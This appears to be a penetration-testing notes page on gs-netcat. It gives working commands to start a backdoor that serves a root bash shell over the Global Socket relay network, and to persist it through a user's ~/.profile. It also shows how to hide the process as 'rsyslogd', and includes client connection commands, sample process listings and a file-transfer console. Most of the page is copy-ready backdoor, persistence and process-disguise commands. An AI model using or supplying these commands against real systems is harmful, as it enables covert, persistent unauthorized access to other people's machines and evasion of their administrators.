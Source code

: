 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C

### Persisting the Server

The following line in the user's \~/.profile starts the backdoor (once) when the user logs in. All in one line:

The '( )' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as rsyslogd) from the process list.

```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a rsyslogd /path/to/gs-netcat)
```

* Ensure there are no syntax errors or the next time a user logs in they will see this message&#x20;

```
ssh root@ubuntu.space
root@ubuntu.space's password: 
Last login: Mon Dec 30 19:29:55 2024 from 192.168.15.172
-bash: /root/.profile: line 11: syntax error: unexpected end of file
```

* when you are connected to the backdoor this is how your process will look&#x20;

```
1 S root         442       1  0  80   0 -   794 do_wai 19:43 ?        00:00:00 rsyslogd
1 S root         443     442  0  80   0 -   829 do_sel 19:43 ?        00:00:00  \_ rsyslogd
0 S root         528     443  0  80   0 -  2105 do_sel 19:47 pts/4    00:00:00      \_ -bash
```

* above will occur no matter how you connect to the server

```
gs-netcat -s MySecret
gs-netcat -s -i MySecret
```

### Command Console

* If you connect to a listening gs-netcat server with the below options you will have access to the command console

```
gs-netcat -i -s MySecret 
```

* access it with CTRL+E c, you will see the below

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* this nicely provides a way to upload and download files as well as local commands just like in metasploit i.e. lls lcd
